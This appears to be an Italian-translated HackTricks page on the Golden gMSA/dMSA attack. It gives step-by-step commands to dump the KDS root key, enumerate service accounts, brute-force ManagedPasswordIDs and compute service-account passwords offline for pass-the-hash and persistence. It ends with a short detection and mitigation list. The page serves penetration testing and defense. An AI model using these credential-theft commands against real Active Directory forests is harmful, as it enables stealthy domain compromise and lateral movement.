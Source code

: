 # Golden gMSA/dMSA Attack (Derivazione Offline delle Password degli Account di Servizio Gestiti)

{{#include ../../banners/hacktricks-training.md}}

## Panoramica

Gli Account di Servizio Gestiti di Windows (MSA) sono principi speciali progettati per eseguire servizi senza la necessità di gestire manualmente le loro password.
Ci sono due varianti principali:

1. **gMSA** – account di servizio gestito di gruppo – può essere utilizzato su più host autorizzati nel suo attributo `msDS-GroupMSAMembership`.
2. **dMSA** – account di servizio gestito delegato – il successore (in anteprima) del gMSA, che si basa sulla stessa crittografia ma consente scenari di delega più granulari.

Per entrambe le varianti, la **password non è memorizzata** su ciascun Domain Controller (DC) come un normale NT-hash. Invece, ogni DC può **derivare** la password attuale al volo da:

* La **KDS Root Key** a livello di foresta (`KRBTGT\KDS`) – segreto con nome GUID generato casualmente, replicato a ogni DC sotto il contenitore `CN=Master Root Keys,CN=Group Key Distribution Service, CN=Services, CN=Configuration, …`.
* Il **SID** dell'account target.
* Un **ManagedPasswordID** (GUID) per account trovato nell'attributo `msDS-ManagedPasswordId`.

La derivazione è: `AES256_HMAC( KDSRootKey , SID || ManagedPasswordID )` → blob di 240 byte infine **base64-encoded** e memorizzato nell'attributo `msDS-ManagedPassword`.
Nessun traffico Kerberos o interazione con il dominio è richiesta durante l'uso normale della password – un host membro deriva la password localmente finché conosce i tre input.

## Golden gMSA / Golden dMSA Attack

Se un attaccante può ottenere tutti e tre gli input **offline**, può calcolare **password valide attuali e future** per **qualsiasi gMSA/dMSA nella foresta** senza toccare di nuovo il DC, bypassando:

* Audit di lettura LDAP
* Intervalli di cambio password (possono pre-calcolare)

Questo è analogo a un *Golden Ticket* per gli account di servizio.

### Requisiti

1. **Compromissione a livello di foresta** di **un DC** (o Enterprise Admin), o accesso `SYSTEM` a uno dei DC nella foresta.
2. Capacità di enumerare gli account di servizio (lettura LDAP / brute-force RID).
3. Workstation .NET ≥ 4.7.2 x64 per eseguire [`GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) o codice equivalente.

### Golden gMSA / dMSA
##### Fase 1 – Estrai la KDS Root Key

Dump da qualsiasi DC (Volume Shadow Copy / hives SAM+SECURITY raw o segreti remoti):
```cmd
reg save HKLM\SECURITY security.hive
reg save HKLM\SYSTEM  system.hive

# With mimikatz on the DC / offline
mimikatz # lsadump::secrets
mimikatz # lsadump::trust /patch   # shows KDS root keys too

# With GoldendMSA
GoldendMSA.exe kds --domain <domain name>   # query KDS root keys from a DC in the forest
GoldendMSA.exe kds

# With GoldenGMSA
GoldenGMSA.exe kdsinfo
```
La stringa base64 etichettata `RootKey` (nome GUID) è necessaria nei passaggi successivi.

##### Fase 2 – Enumerare gli oggetti gMSA / dMSA

Recupera almeno `sAMAccountName`, `objectSid` e `msDS-ManagedPasswordId`:
```powershell
# Authenticated or anonymous depending on ACLs
Get-ADServiceAccount -Filter * -Properties msDS-ManagedPasswordId | \
Select sAMAccountName,objectSid,msDS-ManagedPasswordId

GoldenGMSA.exe gmsainfo
```
[`GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) implementa modalità di aiuto:
```powershell
# LDAP enumeration (kerberos / simple bind)
GoldendMSA.exe info -d example.local -m ldap

# RID brute force if anonymous binds are blocked
GoldendMSA.exe info -d example.local -m brute -r 5000 -u jdoe -p P@ssw0rd
```
##### Fase 3 – Indovina / Scopri il ManagedPasswordID (quando mancante)

Alcuni deployment *rimuovono* `msDS-ManagedPasswordId` da letture protette da ACL.  
Poiché il GUID è a 128 bit, il bruteforce ingenuo è impraticabile, ma:

1. I primi **32 bit = tempo epoch Unix** della creazione dell'account (risoluzione in minuti).  
2. Seguiti da 96 bit casuali.

Pertanto, una **lista di parole ristretta per account** (± poche ore) è realistica.
```powershell
GoldendMSA.exe wordlist -s <SID> -d example.local -f example.local -k <KDSKeyGUID>
```
Lo strumento calcola le password candidate e confronta il loro blob base64 con il reale attributo `msDS-ManagedPassword` – la corrispondenza rivela il GUID corretto.

##### Fase 4 – Computazione e Conversione della Password Offline

Una volta conosciuto il ManagedPasswordID, la password valida è a un comando di distanza:
```powershell
# derive base64 password
GoldendMSA.exe compute -s <SID> -k <KDSRootKey> -d example.local -m <ManagedPasswordID> -i <KDSRootKey ID>
GoldenGMSA.exe compute --sid <SID> --kdskey <KDSRootKey> --pwdid <ManagedPasswordID>
```
Le hash risultanti possono essere iniettati con **mimikatz** (`sekurlsa::pth`) o **Rubeus** per l'abuso di Kerberos, abilitando un **movimento laterale** furtivo e **persistenza**.

## Rilevamento e Mitigazione

* Limitare le capacità di **backup DC e lettura del registro** agli amministratori di Tier-0.
* Monitorare la creazione di **Directory Services Restore Mode (DSRM)** o **Volume Shadow Copy** sui DC.
* Audit delle letture / modifiche a `CN=Master Root Keys,…` e ai flag `userAccountControl` degli account di servizio.
* Rilevare scritture di password **base64** insolite o riutilizzo improvviso di password di servizio tra host.
* Considerare la conversione di gMSA ad alta privilegio in **account di servizio classici** con rotazioni casuali regolari dove l'isolamento di Tier-0 non è possibile.

## Strumenti

* [`Semperis/GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) – implementazione di riferimento utilizzata in questa pagina.
* [`Semperis/GoldenGMSA`](https://github.com/Semperis/GoldenGMSA/) – implementazione di riferimento utilizzata in questa pagina.
* [`mimikatz`](https://github.com/gentilkiwi/mimikatz) – `lsadump::secrets`, `sekurlsa::pth`, `kerberos::ptt`.
* [`Rubeus`](https://github.com/GhostPack/Rubeus) – pass-the-ticket utilizzando chiavi AES derivate.

## Riferimenti

- [Golden dMSA – bypass dell'autenticazione per gli account di servizio gestiti delegati](https://www.semperis.com/blog/golden-dmsa-what-is-dmsa-authentication-bypass/)
- [gMSA Active Directory Attacks Accounts](https://www.semperis.com/blog/golden-gmsa-attack/)
- [Semperis/GoldenDMSA GitHub repository](https://github.com/Semperis/GoldenDMSA)
- [Improsec – attacco di fiducia Golden gMSA](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-5-golden-gmsa-trust-attack-from-child-to-parent)

{{#include ../../banners/hacktricks-training.md}}
